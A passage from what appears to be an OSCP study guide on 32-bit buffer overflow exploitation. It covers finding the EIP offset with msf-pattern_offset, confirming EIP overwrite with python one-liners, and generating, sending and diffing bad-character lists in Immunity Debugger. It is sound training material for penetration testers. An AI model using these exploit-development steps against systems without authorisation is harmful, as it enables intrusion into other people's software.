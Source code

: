 ```
msf-pattern_offset -l <same number> -s abcdefghijklmnopqrstuvwxyz,ABCDEF,0123456789 -q <hex decoded string>
[+] Exact match at offset X
```

### 3. Confirm EIP control:

```
python -c 'print "A"*X+"B"*4'
```

Buffer overflows for the OSCP are always on 32 bits executables, so EIP will always contain 4 bytes. In this case, if your EIP register contains **42424242** at the time of the crash, then you have a successful EIP rewrite.

### 4. Identify bad characters:

#### With Immunity

Generate a list of chars:

```
import sys
for i in range(1,256):
 sys.stdout.write('\\x'+'{:02X}'.format(i))
```

Run with python 2, because for some reason, I’ve had trouble with non printable characters and python 3.

You should get something like:

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/badchars.png)

The command to obtain the python encoded style string is:

```
xxd -p badchars.txt|tr -d '\n'|sed 's/.\{2\}/\\x&/g'
```

And now to send it to the vulnerable process:

```
python -c 'print "A"*X+"B"*4+<bad chars list>
```

Once the crash is obtained in Immunity, copy the ESP value, and jump to it in the memory map. Open the program’s stack, change the view to 16 bytes lines. Paste the ESP value, you should see your bad characters appear. Copy 256 bytes (16 lines) starting at the byte (0x01) and paste it locally. Then use:

```
cat extract|awk '{print $2,$3,$4,$5,$6,$7,$8,$9,$10,$11,$12,$13,$14,$15,$16,$17}'|tr -d '\n '|xxd -r -p > filtered
```

This is used to format the 256 bytes from the stack back to raw binary, in order to make it diffable with the original binary bad characters file. The diff tool I highly recommend is none other than Burp Suite’s comparer, with the Compare Bytes function:
